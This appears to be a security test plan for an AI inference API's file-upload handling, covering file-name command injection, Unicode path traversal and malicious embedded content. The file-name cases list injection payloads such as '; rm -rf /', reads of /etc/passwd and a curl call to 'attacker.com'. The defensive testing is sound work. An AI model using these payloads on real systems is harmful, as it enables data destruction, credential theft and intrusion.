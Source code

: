 * **ID:** SEC_MM_FILENAME_002
  * **Category Ref:** SEC_MULTIMODAL
  * **Description:** Test command injection prevention through malicious file names.
  * **Exposure Point(s):** File name processing in provider adapters and logging systems.
  * **Test Method/Action:** Send POST requests with file names containing command injection payloads:
    * "$(whoami).pdf"
    * "; rm -rf / #.txt"
    * "| cat /etc/passwd > /tmp/exploit.txt"
    * "file.pdf && curl attacker.com"
    * "`id`.txt"
  * **Prerequisites:** Valid API key with models:inference scope.
  * **Expected Secure Outcome:** Command injection attempts are neutralized. No system commands are executed.
  * **Verification Steps:**
    1. Verify no system commands are executed during file processing.
    2. Check logs for evidence of command execution attempts.
    3. Ensure file names are properly escaped in all contexts.
    4. Verify provider adapters handle special characters safely.

* **ID:** SEC_MM_FILENAME_003
  * **Category Ref:** SEC_MULTIMODAL
  * **Description:** Test Unicode normalization attack prevention in file names.
  * **Exposure Point(s):** Unicode handling in file name processing across providers.
  * **Test Method/Action:** Send POST requests with Unicode-based attack file names:
    * "＼..＼..＼windows＼system32＼config＼sam" (fullwidth characters)
    * "..／..／..／etc／passwd" (alternative slash characters)
    * File names with combining characters that could normalize to dangerous sequences
    * File names with right-to-left override characters
  * **Prerequisites:** Valid API key with models:inference scope.
  * **Expected Secure Outcome:** Unicode normalization doesn't create security bypasses. File names are properly encoded and validated.
  * **Verification Steps:**
    1. Verify Unicode file names don't bypass security controls.
    2. Check that normalization doesn't create malicious paths.
    3. Ensure consistent Unicode handling across providers.
    4. Verify proper encoding in logs and processing.

### **File Content Security Validation**

* **ID:** SEC_MM_CONTENT_001
  * **Category Ref:** SEC_MULTIMODAL
  * **Description:** Test malicious embedded content detection in file uploads.
  * **Exposure Point(s):** FilePart.bytes processing and content validation.
  * **Test Method/Action:** Send POST requests with files containing malicious embedded content:
    * PDF files with embedded JavaScript
    * Documents with malicious macros or scripts
    * Images with steganographic hidden data
    * Files with malicious metadata or EXIF data
  * **Prerequisites:** Valid API key with models:inference scope.
  * **Expected Secure Outcome:** Malicious embedded content is detected and neutralized before processing.
  * **Verification Steps:**
    1. Verify embedded scripts are not executed during processing.
    2. Check that malicious metadata is stripped or sanitized.
    3. Ensure steganographic content doesn't affect processing.
    4. Verify file content validation catches malicious elements.
  * **Code Reference:** app/providers/utils.py content validation and Base64 processing.
